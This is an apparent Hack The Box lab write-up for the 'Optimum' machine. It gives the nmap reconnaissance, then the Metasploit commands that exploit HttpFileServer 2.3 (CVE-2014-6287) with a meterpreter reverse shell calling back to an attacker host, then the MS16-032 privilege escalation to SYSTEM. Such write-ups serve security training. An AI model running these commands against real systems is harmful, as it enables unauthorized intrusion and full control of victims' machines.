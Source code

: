 # Hack The Box — Optimum Writeup

##  Machine Info
- **Machine Name**: Optimum
- **IP Address**: 10.129.78.248
- **Operating System**: Windows
- **Date Completed**: 2025-07-01
- **Tools Used**: nmap,searchsploit, exploit-db, msfconsole, systeminfo

---

## 1. Reconnaissance

Initial Nmap scan:
```bash
nmap -sV -O -T4 10.129.78.248
````

### 🔎 Nmap Results

| Port | Service | Version                  |
| ---- | ------- | ------------------------ |
| 80   | HTTP    | HttpFileServer httpd 2.3 |

---

## 2. Enumeration

Accessed the target in the browser:

```
http://10.129.78.248/
```

Confirmed version: **HttpFileServer 2.3 (HFS 2.3)**

## 3. Exploitation

Identified a known RCE in HFS 2.3:

```bash
searchsploit hfs 2.3
```

Result:

```
Rejetto HttpFileServer (HFS) 2.3 - Remote Command Execution (CVE-2014-6287)
```

### Exploitation via Metasploit:

```bash
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.129.78.248
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.77
run
```

Got a **Meterpreter shell as user**.

---

## 4. Privilege Escalation

Checked user:

```bash
whoami
```

Gathered system info:

```bash
systeminfo
```

Exploited a known local vulnerability (e.g., MS16-032):

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 2
set LHOST 10.10.14.77
run
```

 Successfully escalated to **NT AUTHORITY\SYSTEM**.

---

##  5. Flags Captured

```cmd
type C:\Users\kostas\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```
